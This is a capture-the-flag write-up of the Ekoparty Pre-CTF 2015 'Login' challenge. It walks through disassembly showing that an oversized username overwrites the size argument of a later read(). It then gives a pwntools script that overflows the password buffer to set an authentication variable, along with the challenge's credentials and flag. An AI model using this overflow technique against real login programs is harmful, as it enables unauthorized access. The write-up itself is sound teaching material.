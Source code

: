 ```yaml
---
layout: post
title: "Eko Party Pre-CTF 2015 Login"
date: 2015-09-20 23:41:08 -0400
author: [superkojiman]
comments: true
categories: [ekoparty]
---
```


### Solved by superkojiman

The program asks for username and password. If we check the disassembly we see that the guest username is "charly" and the guest password is "h4ckTH1s". After it does a strncmp() on the credentials it checks if a certain variable is 1. If it is, we get the flag:

```
   0x00000000004008eb <+334>:   call   0x400600 <strncmp@plt>
   0x00000000004008f0 <+339>:   test   eax,eax
   0x00000000004008f2 <+341>:   jne    0x400945 <main+424>
   0x00000000004008f4 <+343>:   lea    rax,[rbp-0xd0]
   0x00000000004008fb <+350>:   add    rax,0x18
   0x00000000004008ff <+354>:   mov    edx,0x8
   0x0000000000400904 <+359>:   mov    esi,0x400a2a
   0x0000000000400909 <+364>:   mov    rdi,rax
   0x000000000040090c <+367>:   call   0x400600 <strncmp@plt>
   0x0000000000400911 <+372>:   test   eax,eax
   0x0000000000400913 <+374>:   jne    0x400945 <main+424>
   0x0000000000400915 <+376>:   mov    edi,0x400a33
   0x000000000040091a <+381>:   call   0x400610 <puts@plt>
   0x000000000040091f <+386>:   mov    eax,DWORD PTR [rbp-0xa8]
   0x0000000000400925 <+392>:   cmp    eax,0x1
```

So basically we need to set $rbp-0xa8 to 1. The program uses read() to get the username and password. In both calls to read(), read()'s 3rd parameter size_t count is a variable on the stack, which means we can overwrite it. If we set username to "A"*17, then the second call to read looks like this:

```
=> 0x4008ce <main+305>: call   0x400650 <read@plt>
   0x4008d3 <main+310>: lea    rax,[rbp-0xd0]
   0x4008da <main+317>: add    rax,0x4
   0x4008de <main+321>: mov    edx,0x6
   0x4008e3 <main+326>: mov    esi,0x400a23
Guessed arguments:
arg[0]: 0x0 
arg[1]: 0x7fff3c4b3e38 --> 0x0 
arg[2]: 0x41 ('A')
arg[3]: 0x7fff3c4b3e38 --> 0x0 
```

We've overwritten count to 0x41. Where's the variable we want to set to 1?

```
gdb-peda$ p/x $rbp-0xa8
$8 = 0x7fff3c4b3e48
```

That's only 16 bytes away and we can write 65 bytes. So all we need to do is set the password to "h4ckTH1sBBBBBBBB\x01" to overwrite it. Since the credentials check uses strncmp("charly", buf, 6) and strncmp("h4ckTH1s",  buf, 8), it will ignore the excess padding of "A"s and "B"s in the username and password so it will still match. 

Exploit:

```python
#!/usr/bin/env python
from pwn import *

r = remote("challs.ctf.site", 20000)

buf1 = ""
buf1 += "charly"
buf1 += "A"*(17 - len(buf1))

print r.recv()
r.send(buf1)

buf2 = ""
buf2 += "h4ckTH1s"
buf2 += "B"*(16 - len(buf2))
buf2 += p64(0x1)

print r.recv()
r.send(buf2)

print r.recv()
```

In action: 

```
# ./sploit.py 
[+] Opening connection to challs.ctf.site on port 20000: Done
User : 
Password : 
Welcome guest!
Your flag is : EKO{Back_to_r00000ooooo00000tS}
```

Win!
